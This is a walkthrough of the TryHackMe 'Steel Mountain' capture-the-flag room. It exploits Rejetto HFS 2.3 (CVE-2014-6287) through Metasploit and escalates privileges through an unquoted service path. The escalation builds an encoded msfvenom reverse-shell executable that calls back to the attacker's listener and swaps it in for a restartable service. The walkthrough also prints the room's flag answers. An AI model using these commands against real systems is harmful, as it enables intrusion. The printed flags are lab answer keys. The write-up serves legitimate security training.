 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - Picture: [Steel_Moutain_1.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_1.png)
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - Picture:<br>[Steel_Moutain_2.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_2.png) <br>[Steel_Moutain_3.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_3.png)
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - Picture: [Steel_Moutain_4.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_4.png)
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - Picture:<br>[Steel_Moutain_5.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_5.png)<br>[Steel_Moutain_6.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_6.png)
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        - msfconsole
    - find the exploit
        - search exploit rejetto
        - Picture: [Steel_Moutain_7.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_7.png)
    - Select the exploit
        - use [payload number]
        - Picture: [Steel_Moutain_8.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_8.png)
    - Check the options
        - options
        - Picture: [Steel_Moutain_9.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_9.png)
    - Indicate the remote hosts ip and port (This server run on port 8080)
        - set RHOSTS [IP]
        - set RPORT [port]
        - Picture: [Steel_Moutain_10.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_10.png)
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        - run
        - Picture: [Steel_Moutain_11.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_11.png)
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    Picture: [Steel_Moutain_12.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_12.png)
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
------------------------
### Task 3 - Privilege escalation
- download the script Link: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- Upload the script through meterpreter
    - upload [path]/PowerUp.ps1
    - Picture: [Steel_Moutain_13.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Load powershell
    - load powershell
    - Picture: [Steel_Moutain_14.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Access powershell
    - powershell_shell
    - Picture: [Steel_Moutain_15.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_15.png)
- Execute the powershell script
    - . .\PowerUp.ps1  
- Perform a check
    - Invoke-AllChecks
    - Picture: [Steel_Moutain_16.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_16.png)
- Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
    - Picture: [Steel_Moutain_17.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_17.png)
    - **Answer** : AdvancedSystemCareService9
> The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able.
> This means we can replace the legitimate application with our malicious one, restart the service,which will run our infected program!
- Use msfvenom to generate a reverse shell as an Windows executable.
    - sudo ./msfvenom -p windows/shell_reverse_tcp LHOST=[Local machine IP] LPORT=4443 -e x86/shikata_ga_nai -f exe -o [Path]/ASCService.exe
        - Picture: <br>[Steel_Moutain_18.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_18.png)<br>[Steel_Moutain_24.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_24.png)
    - Exit
    - put the current meterpreter in "Background"
        -  Picture: [Steel_Moutain_19.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_19.png)
    - Preapare the reverse tcp
        - use exploit/multi/handler
        - set payload windows/shell/reverse_tcp
            - Picture: [Steel_Moutain_20.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_20.png)
        - Check the options --> Show Options
            - set LHOSTS [Local machine IP]
            - set LPORT [port] --> Same port defined in the reveserse tcp
            - exploit -j
                - Picture: [Steel_Moutain_21.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_21.png)
    - Upload the executable to the target machine
        - upload /Users/laurentnebout/Documents/Tools/ASCService.exe
        - Picture: [Steel_Moutain_22.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_22.png)
        - Switch to the previous session
            - session -i 1
                - Picture: [Steel_Moutain_23.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_23.png)
    - Navigate to C:\Program Files (x86)\IObit\Advanced SystemCare\
        > Be carefull, the target machine is a windows machine. To navigate, you need to use \ to be able to interpret "space"
        - cd Program\ Files\ (x86)
    - Start shell
        - shell
        - Picture: [Steel_Moutain_25.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_25.png)
        - Stop service
            - sc stop AdvancedSystemCareService9
            - Picture: [Steel_Moutain_26.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_26.png)
        - Quit
        - Picture: [Steel_Moutain_27.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_27.png)
        - Go back to shell
            - shell
        - Start the service
            - sc start AdvancedSystemCareService9
            - Picture: [Steel_Moutain_28.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_28.png)
        - Quit
        - background
            - Picture: [Steel_Moutain_29.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_29.png)
        - session -i [reverse tcp session number]
            - Picture: [Steel_Moutain_30.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_30.png)
        - Navigate to /Users/Administrator/Desktop
        - more root.txt
            - Picture: [Steel_Moutain_30.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_30.png)
        - **Answer** : 9af5f314f57607c00fd09803a587db80